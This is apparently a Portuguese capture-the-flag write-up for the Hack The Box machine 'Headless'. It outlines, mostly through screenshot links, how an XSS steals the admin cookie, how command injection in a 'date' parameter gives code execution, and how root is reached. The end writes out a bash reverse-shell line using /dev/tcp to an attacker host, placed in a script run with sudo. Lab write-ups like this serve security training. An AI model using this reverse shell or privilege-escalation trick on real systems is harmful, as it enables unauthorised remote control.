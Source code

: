Enumeração de serviços:
![[Write-up/Hack The Box/Headless/img/Pasted image 20240404080458.png]]

Descoberta de diretórios:

![[Write-up/Hack The Box/Headless/img/Pasted image 20240404084402.png]]

Validação de XSS:
![[Write-up/Hack The Box/Headless/img/Pasted image 20240404085019.png]]

Recebemos cookie do admin:
![[Write-up/Hack The Box/Headless/img/Pasted image 20240404085044.png]]

Execução de RCE no parâmetro date:
![[Write-up/Hack The Box/Headless/img/Pasted image 20240404085330.png]]

Shell reversa:
![[Write-up/Hack The Box/Headless/img/Pasted image 20240404085605.png]]

Email enviado ao usuário atual, falando sobre o novo script:
![[Write-up/Hack The Box/Headless/img/Pasted image 20240404091413.png]]

Verificação do código do novo script:
![[Write-up/Hack The Box/Headless/img/Pasted image 20240404091503.png]]

Podemos criar o arquivo initdb.sh com o payload da shell reversa:
``` bash
#LOCAL
bash -i

#REMOTO
bash -i >& /dev/tcp/$LHOST/$LPORT 0>&1
```

Dê permissão de execução ao arquivo:
```bash
chmod +x initdb.sh
```

E execute o script com sudo.